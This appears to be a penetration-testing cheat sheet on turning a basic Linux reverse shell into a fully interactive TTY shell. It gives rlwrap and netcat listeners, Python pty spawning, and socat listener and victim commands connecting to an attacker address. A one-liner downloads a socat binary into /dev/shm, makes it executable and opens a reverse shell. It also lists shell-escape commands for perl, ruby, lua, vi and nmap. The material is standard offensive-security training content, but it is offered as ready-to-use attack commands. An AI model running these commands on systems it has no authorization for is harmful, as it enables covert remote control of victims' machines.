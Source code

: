 # Upgrade a linux reverse shell to a fully usable TTY shell
> Note: To check if the shell is a TTY shell use the tty command.
## rlwrap
You can mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the **rlwrap** command.
```console
rlwrap nc -nlvp 8888
```
## python
```console
which python python2 python3    
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```
## socat
> Socat needs to be on both machines for this to work. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)
```bash
#Create Listener on attack platform:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#From Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444

#socat one-liner
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```
## Other
```console
echo os.system('/bin/bash')

/bin/sh -i

# perl
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";

# ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

# lua
lua -e "os.execute('/bin/sh')"

# (From within IRB)
exec "/bin/sh"

# (From within vi)
:!bash

# (From within vi)
:set shell=/bin/bash:shell

# (From within nmap)
!sh

# In Kali or elsewhere
echo $TERM
stty -a

stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>

# With script
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
            reset
reset: unknown terminal type unknown
Terminal type? screen

```

